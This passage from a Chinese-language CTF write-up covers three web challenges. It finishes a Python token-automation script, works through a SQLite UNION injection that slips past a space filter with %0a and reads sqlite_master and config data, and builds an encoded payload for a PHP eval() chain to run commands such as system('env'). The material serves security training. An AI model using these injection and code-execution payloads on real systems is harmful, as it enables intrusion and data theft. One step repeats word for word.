    try:
        print("[verify_token] json:", resp.json())
    except Exception:
        print("[verify_token] text:", resp.text[:1000])
    return resp


def main():
    s = requests.Session()
    s.headers.update({
        "User-Agent": "auto-token-bot/1.0",
        "Accept": "*/*",
    })

    ok = login(s)
    if not ok:
        print("登录失败，停止。请检查用户名/密码或网络。")
        return

    data = fetch_challenge(s)
    if data is None:
        print("无法获取挑战数据，停止。")
        return

    print("challenge data:", data)

    try:
        token, info = parse_and_compute_token(data)
    except Exception as e:
        print("解析/计算 token 失败：", e)
        return

    print("计算得到 token =", token, "（详情：", info, "）")

    # 立即提交
    resp = submit_token(s, token)

if __name__ == "__main__":
    main()
```
4. 运行脚本获取 flag​
核心思路：确保本地环境安装 requests 库（pip install requests），运行脚本后自动完成全流程，最终从响应中提取 flag。
```plaintext
flag{c596b46c-3c82-4416-9e70-538104015062}
```

---

## 4. 题目：小E的管理系统（难度：★☆☆☆☆）
### 4.1 考点
SQL注入

### 4.2 题目描述


### 4.3 解题步骤
1. 识别 SQL 注入类型与过滤规则​
核心思路：通过构造异常参数触发数据库报错，判断注入类型及被过滤的字符。​
操作步骤：​
- 假设目标接口为 ID 查询（如 ?id=1），尝试构造异常参数 ?id=-1（数字型注入特征：参数无需单引号包裹，负数触发数据不存在报错）；​
- 尝试拼接基础注入语句（如 ?id=1 and 1=2），发现请求被拦截，推测防火墙过滤 空格 和 单引号；​
- 绕过空格过滤：使用 URL 编码的换行符 %0a（在 SQL 语法中，%0a 可替代空格作为语句分隔符），构造测试语句 ?id=-1%0aUNION%0aselect%0a1,2,3，发现可正常执行，确认数字型注入且 %0a 可绕过空格过滤。​
注入类型验证截图：

使用%0a绕过空格
2. 探测数据库类型（确认 SQLite）​
核心思路：不同数据库的系统函数不同（如 MySQL 的 databases()、SQLite 的 sqlite_version()），通过构造函数调用判断数据库类型。​
操作步骤：​
- 尝试调用 MySQL 特有函数 ?id=-1%0aUNION%0aselect%0a1,databases(),3，发现报错且无有效返回，排除 MySQL；​
- 调用 SQLite 特有函数 ?id=-1%0aUNION%0aselect%0a1,sqlite_version(),3，成功返回数据库版本（如 3.39.5），确认数据库为 SQLite。​
数据库类型探测截图：

3. 联合查询列数探测（适配 SQLite 语法）​
核心思路：SQLite 不支持 order by N 语法，需通过 交叉连接（CROSS JOIN） 构造固定列数的联合查询，匹配目标表列数。​
操作原理：​
- SQLite 中 SELECT * FROM (SELECT 0) AS A CROSS JOIN (SELECT 2) AS B 表示 2 列数据，通过增加 CROSS JOIN 子句可扩展列数；​
- 若构造的列数与目标表不一致，会报错 “查询列数不匹配”，逐步调整列数至无报错，即为目标表列数。​
操作步骤：​
- 构造 5 列查询语句（逐步测试后确定）：

```plaintext
-1 UNION select * FROM(SELECT 0) AS A CROSS JOIN (SELECT 2) AS B CROSS JOIN (SELECT 2) AS C CROSS JOIN (SELECT 3) AS D CROSS JOIN (SELECT 4) AS E
```
4. 联合查询列数探测（适配 SQLite 语法）​
核心思路：SQLite 不支持 order by N 语法，需通过 交叉连接（CROSS JOIN） 构造固定列数的联合查询，匹配目标表列数。​
操作原理：​
SQLite 中 SELECT * FROM (SELECT 0) AS A CROSS JOIN (SELECT 2) AS B 表示 2 列数据，通过增加 CROSS JOIN 子句可扩展列数；​
若构造的列数与目标表不一致，会报错 “查询列数不匹配”，逐步调整列数至无报错，即为目标表列数。​
操作步骤：​
构造 5 列查询语句（逐步测试后确定）：

5. 提取敏感数据（查询 flag）​
核心思路：SQLite 中所有表结构存储于系统表 sqlite_master，先查询表名和字段名，再从目标表提取 flag。​
关键 SQL 语句与操作：
```plaintext
//查询数据库版本号
-1 UNION select * FROM(SELECT 0) AS A CROSS JOIN (SELECT 2) AS B CROSS JOIN (SELECT sqlite_version()) AS C CROSS JOIN (SELECT 3) AS D CROSS JOIN (SELECT 4) AS E
```
作用：确认 SQLite 版本，确保后续语法兼容性。​
查询所有表名（从 sqlite_master 提取）：
```plaintext
sql from sqlite_master
//查询具体的值
-1 UNION select * FROM(SELECT 0) AS A CROSS JOIN (SELECT 2) AS B CROSS JOIN (select config_value from sys_config) AS C CROSS JOIN (SELECT 3) AS D CROSS JOIN (SELECT 4) AS E
//flag
flag{707da60d-1fe9-4cf5-b029-b00fec7367a3}
```
结果：成功获取 flag


---

## 5. 题目：真的是签到诶（难度：☆☆☆☆☆）
### 5.1 考点
PHP 代码审计

### 5.2 题目描述


### 5.3 解题步骤
1. 代码审计：分析输入处理流程与漏洞点​
核心思路：重点审计 eval 函数的调用链，明确输入 cipher 需经过的编码处理步骤，为逆向构造 payload 做准备。​
关键代码逻辑拆解：
```plaintext
<?php
highlight_file(__FILE__);

$cipher = $_POST['cipher'] ?? '';

function atbash($text) {
  $result = '';
  foreach (str_split($text) as $char) {
    if (ctype_alpha($char)) {
      $is_upper = ctype_upper($char);
      $base = $is_upper ? ord('A') : ord('a');
      $offset = ord(strtolower($char)) - ord('a');
      $new_char = chr($base + (25 - $offset));
      $result .= $new_char;
    } else {
      $result .= $char;
    }
  }
  return $result;
}

if ($cipher) {
  $cipher = base64_decode($cipher);
  $encoded = atbash($cipher);
  $encoded = str_replace(' ', '', $encoded);
  $encoded = str_rot13($encoded);
  @eval($encoded);
  exit;
}

$question = "真的是签到吗？";
$answer = "真的很签到诶！";

$res =  $question . "<br>" . $answer . "<br>";
echo $res . $res . $res . $res . $res;

?> 真的是签到吗？
真的很签到诶！
真的是签到吗？
真的很签到诶！
真的是签到吗？
真的很签到诶！
真的是签到吗？
真的很签到诶！
真的是签到吗？
真的很签到诶！
```
2. 逆向编码流程：构造恶意 payload​
核心思路：正向流程为「Base64 解码→Atbash→去空格→ROT13→eval」，因此逆向流程需按「目标命令→ROT13 编码→保留空格（后续会被去除）→Atbash 翻转→Base64 编码」执行，确保最终处理后为目标命令。​
以目标命令 system('env'); 为例，分步构造 payload：​
步骤 1：目标命令（需执行的代码，无空格，避免被 str_replace(' ', '', ...) 影响）：
```plaintext
cipher (Base64 输入)
↓ base64_decode
↓ Atbash (字母翻转)
↓ 去掉空格
↓ str_rot13
↓ eval()

dW91dGlhKCJrbXRcMDQwL2hibWciKTs=
```
3. 提交 payload 执行命令获取 flag


---